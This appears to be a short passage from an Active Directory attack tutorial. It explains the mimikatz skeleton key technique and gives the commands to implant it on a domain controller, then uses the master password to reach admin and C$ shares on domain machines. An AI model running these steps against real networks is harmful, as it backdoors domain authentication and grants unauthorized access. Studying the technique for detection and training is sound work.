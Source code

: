 ### Skeleton Key Overview
*The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.*

*After preparing mimikatz by running `privilege::debug` command, run:*
`misc:skeleton`

*Now we can access the forest, for example:*
- `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

- `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

**The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques**
